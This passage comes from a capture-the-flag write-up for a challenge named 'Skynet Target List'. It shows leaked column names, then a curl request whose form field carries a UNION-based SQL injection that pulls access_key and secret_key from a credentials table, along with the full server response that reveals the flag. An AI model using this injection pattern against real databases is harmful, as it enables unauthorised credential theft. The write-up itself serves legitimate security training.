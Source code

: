 ```python
...

i = 8
b'<!DOCTYPE html>\n<head>\n  <link rel="stylesheet" href="static/style.css">\n  <meta name="viewport" content="width=device-width, initial-scale=1" />\n  <title>Skynet Target List</title>\n</head>\n\n<body>\n  <div class="query">\n    \n      <h1>Kill before</h1>\n      <h1>target_credentials: access_key</h1>\n    \n  </div>\n</body>'

i = 9
b'<!DOCTYPE html>\n<head>\n  <link rel="stylesheet" href="static/style.css">\n  <meta name="viewport" content="width=device-width, initial-scale=1" />\n  <title>Skynet Target List</title>\n</head>\n\n<body>\n  <div class="query">\n    \n      <h1>Kill before</h1>\n      <h1>target_credentials: secret_key</h1>\n    \n  </div>\n</body>

...
```

The `access_key` and `secret_key` column names stood out in the `target_credentials` table. Modifying our curl command allowed us to pull from those two colums. Using an `OFFSET` of 0 gave us the flag.

```bash
curl -v -X POST 47.242.21.212:8085 \
   -b 'SessionId=a706967504e8247d98ad7e583a11e002' \
   -H 'Content-Type: multipart/form-data' \
   -F "name=' UNION ALL SELECT access_key, secret_key FROM target_credentials LIMIT 1 OFFSET '0"
```
```bash
*   Trying 47.242.21.212:8085...
* Connected to 47.242.21.212 (47.242.21.212) port 8085 (#0)
> POST / HTTP/1.1
> Host: 47.242.21.212:8085
> User-Agent: curl/7.79.1
> Accept: */*
> Cookie: SessionId=21199b076e91781a209628260d6ecc0c
> Content-Length: 222
> Content-Type: multipart/form-data; boundary=------------------------c2ffd11bf040c4a1
> 
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Type: text/html; charset=utf-8
< Content-Length: 348
< Server: Werkzeug/0.16.1 Python/3.8.10
< Date: Sat, 22 Jan 2022 21:33:36 GMT
< 
<!DOCTYPE html>
<head>
  <link rel="stylesheet" href="static/style.css">
  <meta name="viewport" content="width=device-width, initial-scale=1" />
  <title>Skynet Target List</title>
</head>

<body>
  <div class="query">
    
      <h1>Kill before</h1>
      # highlight-start
      <h1>$kynet: rwctf{t0-h4ck-$kynet-0r-f1ask_that-Is-th3-questi0n}</h1>
      # highlight-end
    
  </div>
* Closing connection 0
```